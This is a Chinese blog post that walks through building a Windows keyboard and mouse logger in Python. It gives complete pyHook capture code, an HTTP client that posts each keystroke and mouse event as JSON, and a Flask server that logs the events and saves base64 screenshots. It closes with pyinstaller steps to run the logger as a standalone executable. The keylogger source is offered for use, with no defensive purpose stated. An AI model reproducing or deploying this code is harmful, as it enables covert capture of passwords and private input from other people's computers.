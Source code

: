 ```yaml
---
title: Python之windows键盘鼠标记录器
author: Pandaho
date: 2020-04-27 20:00:00 
categories: [Project] 
tags: [python]
image: /assets/img/python-keyboard-and-mouse/cover.png
---
```





##  简介

利用python将windows下键盘和鼠标的操作信息截取转换为JSON格式，通过HTTP发送至服务器

主要分为3个模块，client、server、keyboard-and-mouse。

在服务端启用server，keyboard-and-mouse截取信息后调用client，发送至http_post_json指向的服务器。

### 架构图

![图例](https://www.pandaho3.cn/assets/img/python-keyboard-and-mouse/1.png)


### Python模块

"Pyhook”是一个基于Python的“钩子”库，主要用于监听当前电脑上鼠标和键盘的事件。这个库依赖于另一个Python库PyWin32，如同名字所显示的，PyWin32只能运行在Windows平台，所以PyHook也只能运行在Windows平台。

[Flask](http://flask.pocoo.org/)是一个Python编写的Web 微框架，让我们可以使用Python语言快速实现一个网站或Web服务。



### 背景说明

- Python3.7
- Windows

##  流程

下载地址： [pyHook](https://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook)



client：

```python
from http.client import HTTPConnection
import json

def http_post_json(ip,dict_data,port=5000):
    c = HTTPConnection(ip,port=port)
    
    headers = {}
    headers['Content-Type'] = 'application/json'
    post_json_data = json.dumps(dict_data).encode ('utf-8')
    c.request('POST','/server_json', body=post_json_data, headers=headers)
if __name__ == "__main__":
    json_data = {"from": "akjflw","to":"fjlakdj", "amount": 3}
    http_post_json('127.0.0.1',json_data)
```



server：

```python
from flask import Flask 
from flask import request
import base64
import json
from datetime import datetime
node = Flask(__name__)

def b64_img(b64):
    b4code = bytes(b64,'utf8')
    img = base64.b64decode(b4code)
    return img
@node.route('/server_json',methods=['POST'])

def transaction():
    if request.method == 'POST':
        json_data = request.get_json()
        if json_data['MessageType'] == 'ImageEvent':
            filename = datetime.now().strftime("%Y-%m-%d %H:%M:%S")+'.bmp'
            recv_image = open(filename,'wb')
            recv_image.write(b64_img(json_data['Imageb64']))
            recv_image.close()
        else:
            print(json_data)
        return 'got data!!!'
if __name__ == '__main__':
    node.run(host = '0.0.0.0')
```



keyboard-and-mouse：

```python
import pythoncom,pyHook
from client import http_post_json
def OnKeyboardEvent(event):
    dict_key = {}
    dict_key['MessageType'] = 'KeyboardEvent'
    dict_key['MessageName'] = event.MessageName
    dict_key['Time'] = event.Time
    dict_key['Key:'] = event.Key
    http_post_json('127.0.0.1',dict_key)
    return True

def OnMouseEvent(event):
    dict_key = {}
    dict_key['MessageType'] = 'MouseEvent'
    dict_key['MessageName'] = event.MessageName
    dict_key['Time'] = event.Time
    dict_key['Position'] = event.Position
    dict_key['Wheel'] = event.Wheel
    http_post_json('127.0.0.1',dict_key)
    return True

def key_mouse_logger():
    hm = pyHook.HookManager()
    hm.KeyDown = OnKeyboardEvent
    hm.HookKeyboard()
    hm.MouseAll = OnMouseEvent
    hm.HookMouse()
    pythoncom.PumpMessages()
    
if __name__ == '__main__':
    key_mouse_logger()
```



其中需要注意的问题：

1、pyHook对应cp号对应python版本，需要特别注意别下载错了

2、No module named ‘pythoncom’问题

```
pip install pywin32
```

3、如果想在没有python的环境下运行需要使用pyinstaller

```
pip install pyinstaller
pyinstaller --onefile *.py
```

